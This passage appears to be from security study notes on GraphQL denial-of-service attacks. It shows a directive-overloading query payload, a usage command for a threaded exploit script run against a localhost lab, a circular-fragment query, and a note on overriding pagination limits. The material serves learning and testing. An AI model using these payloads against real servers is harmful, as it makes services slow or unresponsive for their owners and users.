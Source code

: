 ```graphql
query {
    pastes {
        title @aa@aa@aa@aa # add as many directives as possible
        content @aa@aa@aa@aa
    }
}
```

{% embed url="https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_directive_overloading.py" %}

* **Exploit Script**: The script multiplies a directive (e.g., `@dos`) to create a malicious payload, sends it in a query, and runs 300 threads in an infinite loop to overload the server.
*   **Usage**: Run with the command:

    ```
    python3 exploit_directive_overloading.py http://localhost:5013/graphql 30000
    ```
* **Impact**: The server may become slow or unresponsive during the attack.
* **Note**: The directive (`@dos`) can be any arbitrary text.

***

#### **Circular Fragments**

&#x20;Fragments that reference one another can cause infinite loops, leading to DoS conditions.

```graphql
query CircularFragment {
    pastes {
        ...Start
    }
}

fragment Start on PasteObject {
    title
    content
    ...End
}

fragment End on PasteObject {
    ...Start
}
```

***

#### **Object Limit Overriding**&#x20;

Overriding limits on fields that return arrays, by using API pagination arguments like `filter`, `max`, `limit`, and `total`, can result in DoS.

GraphQL servers often limit the amount of data returned to clients, especially for fields returning arrays, to prevent excessive load. However, these limits can sometimes be overridden, posing potential risks.

